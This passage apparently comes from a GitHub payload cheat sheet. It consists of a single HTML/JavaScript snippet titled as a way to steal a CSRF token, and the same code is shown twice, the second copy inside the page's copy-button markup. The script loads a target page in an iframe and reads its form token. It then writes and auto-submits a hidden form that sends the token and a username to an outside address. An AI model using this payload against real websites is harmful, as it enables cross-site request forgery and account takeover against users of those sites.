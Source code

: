<h3 dir="auto"><a id="user-content-steal-csrf-token-and-sen-a-post-request-using-an-iframe-and-a-form" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-sen-a-post-request-using-an-iframe-and-a-form"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and sen a POST request using an iframe and a form</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"&gt;&lt;/iframe&gt;

&lt;script&gt; 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('&lt;form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data"&gt;');
    document.writeln('&lt;input id="username" type="text" name="username" value="' + name + '" /&gt;&lt;br /&gt;');
    document.writeln('&lt;input id="token" type="hidden" name="token" value="' + token + '" /&gt;');
    document.writeln('&lt;input type="submit" name="submit" value="Submit" /&gt;&lt;br/&gt;');
    document.writeln('&lt;/form&gt;');
    document.forms[0].submit.click();
}
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<iframe id=&quot;iframe&quot; src=&quot;http://google.com?param=VALUE&quot; width=&quot;500&quot; height=&quot;500&quot; onload=&quot;read()&quot;></iframe>

<script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById(&quot;iframe&quot;).contentDocument.forms[0].token.value;
    document.writeln('<form width=&quot;0&quot; height=&quot;0&quot; method=&quot;post&quot; action=&quot;http://www.yoursebsite.com/check.php&quot;  enctype=&quot;multipart/form-data&quot;>');
    document.writeln('<input id=&quot;username&quot; type=&quot;text&quot; name=&quot;username&quot; value=&quot;' + name + '&quot; /><br />');
    document.writeln('<input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;' + token + '&quot; />');
    document.writeln('<input type=&quot;submit&quot; name=&quot;submit&quot; value=&quot;Submit&quot; /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">